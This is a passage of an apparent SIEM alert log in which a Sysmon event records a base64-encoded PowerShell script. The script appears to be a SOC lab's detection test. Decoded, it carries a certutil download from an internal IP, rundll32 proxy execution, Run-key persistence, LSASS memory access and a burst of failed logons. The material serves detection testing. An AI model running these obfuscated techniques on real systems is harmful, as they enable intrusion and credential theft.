AdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGMAZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwBzAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBkAHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==\\r\\nParentUser: WIN10\\\\soc\\\"\"},\"eventdata\":{\"utcTime\":\"2026-10-19 18:43:33.205\",\"processGuid\":\"{659b395a-64d5-6ad6-5f04-000000000300}\",\"processId\":\"9796\",\"image\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\rundll32.exe\",\"fileVersion\":\"10.0.26100.1591 (WinBuild.160101.0800)\",\"description\":\"Windows host process (Rundll32)\",\"product\":\"Microsoft\u00ae Windows\u00ae Operating System\",\"company\":\"Microsoft Corporation\",\"originalFileName\":\"RUNDLL32.EXE\",\"commandLine\":\"\\\\\\\"C:\\\\\\\\WINDOWS\\\\\\\\system32\\\\\\\\rundll32.exe\\\\\\\" url.dll,FileProtocolHandler calc.exe\",\"currentDirectory\":\"C:\\\\\\\\Users\\\\\\\\soc\\\\\\\\\",\"user\":\"WIN10\\\\\\\\soc\",\"logonGuid\":\"{659b395a-64cf-6ad6-935b-e60000000000}\",\"logonId\":\"0xe65b93\",\"terminalSessionId\":\"0\",\"integrityLevel\":\"High\",\"hashes\":\"MD5=025B13BF5652712D9B596E6766A9C386,SHA256=4B84DC6750937EB47B19CDE0D23DEBD4D2F2211300171B36D13EF5AD11DD60F9,IMPHASH=E3165C22028490334195CBDFA2962AA1\",\"parentProcessGuid\":\"{659b395a-64d0-6ad6-5904-000000000300}\",\"parentProcessId\":\"2604\",\"parentImage\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\",\"parentCommandLine\":\"powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGMAZQBzAHMAIAAoADAAeAAxADAAMQAwACAAUABSAE8AQwBFAFMAUwBfAFYATQBfAFIARQBBAEQAIAB8ACAAUABSAE8AQwBFAFMAUwBfAFEAVQBFAFIAWQBfAEwASQBNAEkAVABFAEQAXwBJAE4ARgBPAFIATQBBAFQASQBPAE4AKQAKACQAYwBvAGQAZQAgAD0AIABAACIACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQA7AAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwAKAHAAdQBiAGwAaQBjACAAYwBsAGEAcwBzACAATABzAGEAcwBzAFQAZQBzAHQAIAB7AAoAIAAgACAAIABbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACwAIABTAGUAdABMAGEAcwB0AEUAcgByAG8AcgAgAD0AIAB0AHIAdQBlACkAXQAKACAAIAAgACAAcAB1AGIAbABpAGMAIABzAHQAYQB0AGkAYwAgAGUAeAB0AGUAcgBuACAASQBuAHQAUAB0AHIAIABPAHAAZQBuAFAAcgBvAGMAZQBzAHMAKAB1AGkAbgB0ACAAZAB3AEQAZQBzAGkAcgBlAGQAQQBjAGMAZQBzAHMALAAgAGIAbwBvAGwAIABiAEkAbgBoAGUAcgBpAHQASABhAG4AZABsAGUALAAgAGkAbgB0ACAAZAB3AFAAcgBvAGMAZQBzAHMASQBkACkAOwAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABDAGwAbwBzAGUASABhAG4AZABsAGUAKABJAG4AdABQAHQAcgAgAGgATwBiAGoAZQBjAHQAKQA7AAoAfQAKACIAQAAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABjAG8AZABlAAoAJABsAHMAYQBzAHMAUABpAGQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIABsAHMAYQBzAHMAKQAuAEkAZAAKACQAaAAgAD0AIABbAEwAcwBhAHMAcwBUAGUAcwB0AF0AOgA6AE8AcABlAG4AUAByAG8AYwBlAHMAcwAoADAAeAAxADAAMQAwACwAIAAkAGYAYQBsAHMAZQAsACAAJABsAHMAYQBzAHMAUABpAGQAKQAKAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAIgBPAHAAZQBuAGUAZAAgAGwAcwBhAHMAcwAgAFAASQBEACAAJABsAHMAYQBzAHMAUABpAGQAIABoAGEAbgBkAGwAZQA9ACQAaAAiAAoAaQBmACAAKAAkAGgAIAAtAG4AZQAgAFsASQBuAHQAUAB0AHIAXQA6ADoAWgBlAHIAbwApACAAewAgAFsATABzAGEAcwBzAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJABoACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAAoAIwAgADYALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANwAgACsAIAAxADAAMAAyADAAMAA6ACAANQAgAGYAYQBpAGwAZQBkACAAbABvAGcAbwBuAHMAIAAoADQANgAyADUAKQAgAGYAbwBsAGwAbwB3AGUAZAAgAGIAeQAgADEAIABzAHUAYwBjAGUAcwBzAGYAdQBsACAAbABvAGcAbwBuACAAKAA0ADYAMgA0ACkAIABmAG8AcgAgAHUAcwBlAHIAIAAnAHMAbwBjACcACgAkAGwAbwBnAG8AbgBDAG8AZABlACAAPQAgAEAAIgAKAHUAcwBpAG4AZwAgAFMAeQBzAHQAZQBtADsACgB1AHMAaQBuAGcAIABTAHkAcwB0AGUAbQAuAFIAdQBuAHQAaQBtAGUALgBJAG4AdABlAHIAbwBwAFMAZQByAHYAaQBjAGUAcwA7AAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABBAGQAdgBhAHAAaQBUAGUAcwB0ACAAewAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAYQBkAHYAYQBwAGkAMwAyAC4AZABsAGwAIgAsACAAUwBlAHQATABhAHMAdABFAHIAcgBvAHIAIAA9ACAAdAByAHUAZQAsACAAQwBoAGEAcgBTAGUAdAAgAD0AIABDAGgAYQByAFMAZQB0AC4AVQBuAGkAYwBvAGQAZQApAF0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABMAG8AZwBvAG4AVQBzAGUAcgAoAHMAdAByAGkAbgBnACAAbABwAHMAegBVAHMAZQByAG4AYQBtAGUALAAgAHMAdAByAGkAbgBnACAAbABwAHMAegBEAG8AbQBhAGkAbgAsACAAcwB0AHIAaQBuAGcAIABsAHAAcwB6AFAAYQBzAHMAdwBvAHIAZAAsAAoAIAAgACAAIAAgACAAIAAgAGkAbgB0ACAAZAB3AEwAbwBnAG8AbgBUAHkAcABlACwAIABpAG4AdAAgAGQAdwBMAG8AZwBvAG4AUAByAG8AdgBpAGQAZQByACwAIABvAHUAdAAgAEkAbgB0AFAAdAByACAAcABoAFQAbwBrAGUAbgApADsACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAuAGQAbABsACIALAAgAFMAZQB0AEwAYQBzAHQARQByAHIAbwByACAAPQAgAHQAcgB1AGUAKQBdAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBsACAAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgASQBuAHQAUAB0AHIAIABoAE8AYgBqAGUAYwB0ACkAOwAKAH0ACgAiAEAACgBBAGQAZAAtAFQAeQBwAGUAIAAtAFQAeQBwAGUARABlAGYAaQBuAGkAdABpAG8AbgAgACQAbABvAGcAbwBuAEMAbwBkAGUACgBmAG8AcgAgACgAJABpACAAPQAgADEAOwAgACQAaQAgAC0AbABlACAANgA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJAB0AG8AawAgAD0AIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8ACgAgACAAIAAgAFsAQQBkAHYAYQBwAGkAVABlAHMAdABdADoAOgBMAG8AZwBvAG4AVQBzAGUAcgAoACIAcwBvAGMAIgAsACAAIgBXAGkAbgAxADAAIgAsACAAIgBXAHIAbwBuAGcAUABhAHMAcwAxADIAMwAhACIALAAgADMALAAgADAALAAgAFsAcgBlAGYAXQAkAHQAbwBrACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADMACgAkAHQAbwBrAEcAbwBvAGQAIAA9ACAAWwBJAG4AdABQAHQAcgBdADoAOgBaAGUAcgBvAAoAJABvAGsAIAA9ACAAWwBBAGQAdgBhAHAAaQBUAGUAcwB0AF0AOgA6AEwAbwBnAG8AbgBVAHMAZQByACgAIgBzAG8AYwAiACwAIAAiAFcAaQBuADEAMAAiACwAIAAiAFMAbwBjAEwAYQBiACEAMgAwADIANgAiACwAIAAzACwAIAAwACwAIABbAHIAZQBmAF0AJAB0AG8AawBHAG8AbwBkACkACgBXAHIAaQB0AGUALQBPAHUAdABwAHUAdAAgACIATABvAGcAbwBuAFUAcwBlAHIAIABzAHUAYwBjAGUAcwBzAD0AJABvAGsAIgAKAGkAZgAgACgAJAB0AG8AawBHAG8AbwBkACAALQBuAGUAIABbAEkAbgB0AFAAdAByAF0AOgA6AFoAZQByAG8AKQAgAHsAIABbAEEAZAB2AGEAcABpAFQAZQBzAHQAXQA6ADoAQwBsAG8AcwBlAEgAYQBuAGQAbABlACgAJAB0AG8AawBHAG8AbwBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsACAAfQAKAA==\",\"parentUser\":\"WIN10\\\\\\\\soc\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Sysmon",
        "providerGuid": "{5770385f-c22a-43e0-bf4c-06f5698ffbd9}",
        "eventID": "1",
        "version": "5",
        "level": "4",
        "task": "1",
        "opcode": "0",
        "keywords": "0x8000000000000000",
        "systemTime": "2026-10-19T18:43:33.2108254Z",
        "eventRecordID": "3286",
        "processID": "6932",
        "threadID": "2332",
        "channel": "Microsoft-Windows-Sysmon/Operational",
        "computer": "Win10",
        "severityValue": "INFORMATION",
        "message": "\"Process Create:\r\nRuleName: -\r\nUtcTime: 2026-10-19 18:43:33.205\r\nProcessGuid: {659b395a-64d5-6ad6-5f04-000000000300}\r\nProcessId: 9796\r\nImage: C:\\Windows\\System32\\rundll32.exe\r\nFileVersion: 10.0.26100.1591 (WinBuild.160101.0800)\r\nDescription: Windows host process (Rundll32)\r\nProduct: Microsoft\u00ae Windows\u00ae Operating System\r\nCompany: Microsoft Corporation\r\nOriginalFileName: RUNDLL32.EXE\r\nCommandLine: \"C:\\WINDOWS\\system32\\rundll32.exe\" url.dll,FileProtocolHandler calc.exe \r\nCurrentDirectory: C:\\Users\\soc\\\r\nUser: WIN10\\soc\r\nLogonGuid: {659b395a-64cf-6ad6-935b-e60000000000}\r\nLogonId: 0xE65B93\r\nTerminalSessionId: 0\r\nIntegrityLevel: High\r\nHashes: MD5=025B13BF5652712D9B596E6766A9C386,SHA256=4B84DC6750937EB47B19CDE0D23DEBD4D2F2211300171B36D13EF5AD11DD60F9,IMPHASH=E3165C22028490334195CBDFA2962AA1\r\nParentProcessGuid: {659b395a-64d0-6ad6-5904-000000000300}\r\nParentProcessId: 2604\r\nParentImage: C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\r\nParentCommandLine: powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABSAHUAbgAiACAALwB2ACAAVAAgAC8AZAAgACIAYwBhAGwAYwAuAGUAeABlACIAIAAvAGYACgBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAFMAZQBjAG8AbgBkAHMAIAAxAAoAcgBlAGcALgBlAHgAZQAgAGQAZQBsAGUAdABlACAAIgBIAEsAQwBVAFwAUwBvAGYAdAB3AGEAcgBlAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUgB1AG4AIgAgAC8AdgAgAFQAIAAvAGYACgAKACMAIAA1AC4AIABSAHUAbABlACAAMQAwADAAMgAwADEAOgAgAEwAUwBBAFMAUwAgAG0AZQBtAG8AcgB5ACAAYQBjAGM